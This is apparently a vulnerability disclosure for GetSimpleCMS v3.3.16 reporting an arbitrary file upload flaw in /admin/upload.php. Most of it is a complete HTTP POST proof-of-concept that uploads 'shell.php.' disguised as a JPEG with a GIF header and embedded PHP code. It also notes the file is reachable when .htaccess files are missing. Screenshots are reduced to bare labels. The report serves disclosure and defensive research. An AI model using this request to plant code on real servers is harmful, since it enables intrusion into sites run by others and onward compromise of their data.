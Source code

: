 #### BUG_AUTHOR:acmglz
# GetSimpleCMS has any file upload
## Download address:
https://github.com/GetSimpleCMS/GetSimpleCMS/releases/tag/v3.3.16
## Version:V3.3.16
## Tested on: PHP, Apache, MySQL
## Affected Page:
/admin/upload.php

Attackers can control the permissions of websites by uploading files

## Proof of vulnerability:
## Payload：

request

```
POST /admin/upload.php?path= HTTP/1.1
Host: cmsxxxx.com
Priority: u=0, i
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:129.0) Gecko/20100101 Firefox/129.0
Referer: http://cmsxxxx.com/admin/upload.php?path=
Content-Type: multipart/form-data; boundary=---------------------------306376624418395856912301056693
Cookie: GS_ADMIN_USERNAME=admin; 7c6db860ae06e77e5966ec2e1a68fd569dfd0ec3=1c2bded131bc03c6479b9dfbf87d9cb3109d69b8; 1a8a1561415a3403d5d9ce1b88113e15eefa929f=fb7dae482af37afd608b723a500bcb0e9d4879d8
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Sec-GPC: 1
Origin: http://cmsxxxx.com
Upgrade-Insecure-Requests: 1
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
DNT: 1
Content-Length: 508

-----------------------------306376624418395856912301056693
Content-Disposition: form-data; name="file[]"; filename="shell.php."
Content-Type: image/jpeg

gif89a
<?php phpinfo();?>
-----------------------------306376624418395856912301056693
Content-Disposition: form-data; name="hash"

6147eb7408034d9137a0d56a14bed92d9609fb46
-----------------------------306376624418395856912301056693
Content-Disposition: form-data; name="submit"

Upload
-----------------------------306376624418395856912301056693--

```

## Trigger popup：
When the file is uploaded, the data packet is captured. Change it to the following

t1

When you return to the folder, you can see that the upload was successful

t2

After the test, the directory is inaccessible by default. If the directory and its upper directory do not have.htaccess files, the directory can be successfully accessed

t3
